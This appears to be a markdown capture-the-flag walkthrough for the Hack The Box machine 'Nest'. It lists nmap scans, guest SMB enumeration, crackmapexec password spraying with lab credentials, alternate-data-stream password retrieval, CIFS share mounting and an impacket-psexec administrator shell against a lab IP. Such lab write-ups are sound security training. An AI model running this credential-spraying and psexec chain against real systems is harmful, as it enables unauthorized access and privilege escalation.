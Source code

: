 # Nest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -oA fullnest 10.10.10.178``

445/tcp  open  microsoft-ds

4386/tcp open  unknown


``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![image](https://user-images.githubusercontent.com/123066149/219978012-ef2de3c1-ee16-4f12-a81d-e5d1c908e88e.png)

# ${{\color{purple}Initial Foothold}}\ $

``smbclient -U 'guest%' -L //10.10.10.178``  **:white_check_mark:**

![nest](https://user-images.githubusercontent.com/123066149/219977952-10bf82e2-17dd-4847-9662-7c0574cb3f03.PNG)

``smbmap -u 'guest%' -p '' -H 10.10.10.178``

![nest2](https://user-images.githubusercontent.com/123066149/219977955-11587394-53bb-4003-96db-4444483d1f9e.PNG)

``tree -f``

![nest6](https://user-images.githubusercontent.com/123066149/219978096-f7d14d29-972e-4762-bcc1-762285d76e56.PNG)

### After a good enumeration I found a password in the share :

![nest7](https://user-images.githubusercontent.com/123066149/219978134-ceda178d-80e0-486f-93b5-12f9d74e7f05.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

### See the difference in rights on the share:

``crackmapexec smb 10.10.10.178 -u 'seazeaz' -p 'azeazeazee'`` 

``crackmapexec smb 10.10.10.178 --shares -u 'TempUser' -p 'welcome2019'``

``crackmapexec smb 10.10.10.178 --shares -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'``

![image](https://user-images.githubusercontent.com/123066149/219978197-a0d102f9-3279-4ff7-a4e8-f5e79fe3eae2.png)

### Replay the password for other users :

``crackmapexec smb 10.10.10.178 -u users.lst -p welcome2019 --continue-on-success``

![nest3](https://user-images.githubusercontent.com/123066149/219978170-7567d458-4be6-4c03-9a94-38b500e6ef36.PNG)

### In a file named "Debug Mode Password.txté" I had to do a special command to find the password :

``allinfo "Debug Mode Password.txt``

``get "Debug Mode Password.txt":Password``

``cat Debug Mode Password.txt``

![nest4](https://user-images.githubusercontent.com/123066149/219978395-27c5720e-def1-46ee-8006-cfeb6154147d.PNG)

# ${{\color{purple}Exploitation}}\ $ 

### I have created directories and I mounted the share in the files to make a better enumeration :

``mkdir C.Smith``

``mkdir L.Frost``

``mkdir R.Thompson``

``mkdir TempUser``

``mount -t cifs -o 'username=L.Frost,password=welcom2019' //10.10.10.178/Users /mnt/L.Frost``

``mount -t cifs //10.10.10.178/Data /mnt/tmpuser -o "username=TempUser,password=welcome2019"``

``find .``  

### OR to exploit the structure

``tree -f``

# ${{\color{purple}Privilege Escalation}}\ $

``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![nest9](https://user-images.githubusercontent.com/123066149/219978750-0df318a5-091d-4117-b511-1929e1a5637e.PNG)

![nest10](https://user-images.githubusercontent.com/123066149/219978754-492ceb49-2465-4b0b-a73d-5b066e660b46.PNG)

![nest11](https://user-images.githubusercontent.com/123066149/219978757-1e3f2a5e-e0a6-4f1f-9932-31d16f3defb1.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

``/usr/bin/impacket-psexec administrator@10.10.10.178``

![nest5](https://user-images.githubusercontent.com/123066149/219978802-4d6431df-f61c-4545-b87e-256f69e4c39b.PNG)


# ${{\color{purple}Points of Improvement}}\ $
